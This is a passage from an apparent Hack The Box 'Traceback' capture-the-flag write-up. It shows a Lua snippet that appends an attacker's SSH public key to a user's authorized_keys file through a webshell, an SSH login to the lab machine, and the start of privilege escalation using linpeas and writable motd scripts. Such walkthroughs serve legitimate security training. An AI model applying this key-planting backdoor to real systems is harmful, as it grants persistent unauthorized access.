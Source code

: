```shell
CODEfile = io.open (filename [, mode])
file:write("--test")
file:close()
.....
filename = "/home/sysadmin/.ssh/authorized_keys"
mode = "a" Append mode that opens an existing file or creates a new file for appending.
--test = "pub ssh key value"
```

We generate our ssh key pair to put the public key value in our lua script.

```terminal
$ ssh-keygen -t rsa -b 2048
```

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-scriptlua.png" | relative_url }})

We upload the script from the webshell and execute this under root privilege.

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-upload.png" | relative_url }})

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-runscript.png" | relative_url }})

### Remote Service SSH login
***
We have now the possibility to connect on sysadmin through ssh :

```terminal
$ ssh sysadmin@10.10.10.181 -i traceback
```

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-sysadminssh.png" | relative_url }})

### Flag user
***
We flag the user to validate the compromission of the system user.

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-userflag.png" | relative_url }})


## **<span style='color:#c0392b'>[3] Privilege Escalation - Gain higher-level permissions</span>**
### Privilege Misconfiguration
***
We use linpeas script to check every possible path to increase our privilege.

![Desktop View]({{ "/assets/img/traceback/HTB-Images-Traceback-sendlinpeas.png" | relative_url }})

The script reveal interesting group named `/etc/update-motd.d` where many files are writables with sysadmin privilege.
